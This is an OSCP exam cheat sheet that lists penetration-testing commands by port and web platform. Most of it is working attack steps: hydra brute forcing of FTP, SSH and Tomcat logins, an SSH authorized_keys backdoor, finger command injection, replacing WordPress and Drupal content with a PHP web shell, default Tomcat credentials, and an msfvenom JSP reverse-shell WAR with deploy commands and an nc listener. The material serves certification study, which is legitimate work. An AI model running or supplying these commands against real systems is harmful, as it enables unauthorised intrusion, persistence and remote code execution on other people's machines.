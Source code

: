 # Welcome to Zamrax's Cheat Sheet for OSCP

## Enumeration:

1. nmapAutomator:
	```
	nmapAutomator.sh -H IP -t All
	```
2. autorecon:
	```
	autorecon IP
	```
3. nmap:
	```
	nmap -T4 -A -p- IP
	```

## Port Enumeration:

### 21 (FTP):
1. Anonymous login is possible:
	```
	ftp IP
	ftp> USER anonymous
	ftp> PASS 
	```
2. View of FTP content:
	```
	ftp://IP
	```
3. Get files from FTP:
	```
	PASSIVE
	BINARY
	get FILE
	```
4. Upload files to FTP:
	```
	PASSIVE
	BINARY
	put FILE
	```
5. Brute force:
	```
	hydra -V -f -L USER_LIST -P /usr/share/wordlists/rockyou.txt ftp://IP -u -vV
	```
6. Vulnerability Scanning:
	```
	nmap -p 21 --script="+*ftp* and not brute and not dos and not fuzzer" -vv -oN ftp IP
	```

### 22 (SSH)
1. Brute Force:
	```
	hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt ssh://IP -u -vV
	```
2. Possible Exploit: CVE-2008-0166:
	```
	searchsploit -m 5720
	```
3. Backdoor (might be worth it):
	```
	-> Attacker
	ssh-keygen -f FILE
	chmod 600 FILE
	cat FILE.pub -> copy

	-> Victim
	echo FILE.pub >> PATH/.ssh/authorized_keys

	-> Connect
	ssh -i FILE USER@IP
	```
4. Banner grab:
	```
	ssh root@IP
	```

### 23 (Telnet)
1. Connect:
	```
	telnet IP 23
	```

### 25 (SMTP)
1. Connect:
	```
	nc IP 25
	```
2. User enumeration:
	```
	VRFY USER
	```

### 43 (WHOIS)
1. Connection:
	```
	whois -h IP -p PORT "domain.tld"
	```

### 53 (DNS)
1. Enumeration:
	```
	dnsenum DOMAIN
	dnsrecon -d DOMAIN

	nslookup
	nslookup> server IP
	nslookup> DOMAIN
	```
2. Zone Transfer
	```
	dnsrecon -d DOMAAIN -a
	dig axfr DOMAIN @website
	```
3. DNS Brute force:
	```
	https://github.com/blark/aiodnsbrute
	```

### 69 (TFTP)
1. Enumeration
	```
	nmap -n -Pn -sU -p69 -sV --script tftp-enum IP
	```

### 79 (Finger)
1. User Enumeration
	```
	finger IP
	finger USER@IP
	```
2. Command execution:
	```
	finger "|/bin/id@<IP>"
	finger "|/bin/ls -a /<IP>"
	```

### 80 & 443 (HTTP):
1. Enumeration:
	```
	done by automatic scripts
	```
2. Directory Fuzzing:
- GoBuster:
	```
	gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20
	gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx
	gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx --insecuressl
	```
(might have to use `-k` switch if HTTPS is not trustable)
- Dirbuster
	```
	trivial
	```
	(Do not forget to change file formats and supply correct directory list like above)

	**Wordpress**
		_Enumeration_
		```
		\# Scan
		wpscan --rua -e --url IP/URL
		\# Brute force users/login
		wpscan --rua --url IP/URL -P /usr/share/wordlists/rockyou.txt -U "USER,USER"
		```
		_Theme RCE_
		```
		Appearance -> Editor -> 404 Template (at the right)
		Change the content for a php shell
		https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
		http://<IP>/wp-content/themes/twentytwelve/404.php
		```
		_Plugin RCE_
		Follow this [Link](https://medium.com/swlh/wordpress-file-manager-plugin-exploit-for-unauthenticated-rce-8053db3512ac)
	**Drupal**
		_Enumeration_
		```
		droopescan scan -u IP/URL
		```
		_User Enumeration_
		```
		In /user/register just try to create a username and if the name is already taken it will be notified :
		*The name admin is already taken*
		If you request a new password for an existing username :
		*Unable to send e-mail. Contact the site administrator if the problem persists.*
		If you request a new password for a non-existent username :
		*Sorry, test is not recognized as a user name or an e-mail address.*
		Accessing /user/<number> you can see the number of existing users :
			- /user/1 -> Access denied (user exist)
			- /user/2 -> Page not found (user doesn't exist)
		```
		_Hidden Pages Enumeration_
		```
		wfuzz -c -z range,1-500 --hc 404 URL/node/FUZZ
		```
		_Panel RCE_
		```
		You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)
		Go to Modules -> (Check) PHP Filter  -> Save configuration
		https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
		Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview
		```
	**Joomla**
		_Enumeration_
		```
		joomscan -u URL
		./joomlavs.rb --url URL -a -v
		```
	**Tomcat**
		_Default Credentials_
		```
		The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :
		\
		admin:admin
		tomcat:tomcat
		admin:<NOTHING>
		admin:s3cr3t
		tomcat:s3cr3t
		admin:tomcat
		```
		_Brute Force_
		```hydra -L USER_LIST -P /usr/share/wordlists/rockyou.txt -f IP http-get /manager/html -vV -u```
		_Panel RCE_
		```
		\# Generate payload
		msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war

		\# Upload payload
		Tomcat6 :
		wget 'http://USER:PASSWORD@IP:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

		Tomcat7 and above :
		curl -v -u USER:PASSWORD -T shell.war 'http://IP:8080/manager/text/deploy?path=/shellh&update=true'

		\# Listener
		nc -nvlp PORT

		\# Execute payload
		curl http://IP:8080/shell/
		```
